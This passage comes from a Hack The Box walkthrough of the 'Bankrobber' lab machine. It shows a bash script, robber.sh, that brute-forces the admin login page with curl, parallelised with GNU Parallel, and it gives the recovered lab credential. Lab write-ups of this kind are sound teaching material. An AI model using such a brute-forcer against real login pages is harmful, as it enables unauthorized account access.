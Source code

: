 Hmm. Cookie-based authentication??!! Look at the redirection? To `/user`! Previously in our enumeration, the directory `/admin` was also present along with `/user`. If I had to guess, I would say that admin logon gets redirected to `/admin`. With that in mind, I wrote the following brute-forcer script of sorts, using `curl` as the main driver.

<div class="filename"><span>robber.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.154
USER=admin
PASS=$1

function die() {
  killall perl &>/dev/null
}

CHECK=$(curl -i \
             -s \
             -d "username=$USER&password=$PASS" \
             http://$HOST/login.php \
  | grep -E '^Location')

if grep 'admin' <<<"$CHECK" &>/dev/null; then
  echo "[*] Password is: $PASS"
  die
fi
```

Combined with GNU Parallel, we get a poor man version\'s of a multi-threaded brute-forcer. It took me a while to brute-force the passsword. The credential is (`admin:hopelessromantic`).

Let\'s check it out.

<a class="image-popup">
![2ed0a32c.png](/assets/images/posts/bankrobber-htb-walkthrough/2ed0a32c.png)
</a>


[1]: https://www.hackthebox.eu/home/machines/profile/209
[2]: https://www.hackthebox.eu/home/users/profile/3244
[3]: https://www.hackthebox.eu/home/users/profile/623
[4]: https://www.hackthebox.eu/